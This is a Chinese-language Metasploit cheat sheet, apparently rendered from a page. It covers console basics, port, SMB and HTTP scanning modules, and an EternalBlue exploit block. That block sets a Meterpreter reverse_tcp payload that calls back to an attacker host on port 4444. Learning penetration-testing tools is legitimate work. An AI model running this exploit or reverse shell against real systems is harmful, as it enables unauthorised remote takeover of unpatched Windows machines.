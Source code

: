 ### 基本命令
```bash
# 查看帮助
help

# 搜索模块
search [keyword]

# 使用模块
use [module_path]

# 查看模块信息
info

# 显示当前设置
show options

# 设置参数
set [option] [value]

# 运行模块
run 或 exploit
```

## 常用模块与命令

### 信息收集
```bash
# 扫描端口
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
run

# SMB版本扫描
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.100
run

# HTTP服务扫描
use auxiliary/scanner/http/http_version
set RHOSTS 192.168.1.100
run
```

### 漏洞利用
```bash
# 使用永恒之蓝漏洞
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```
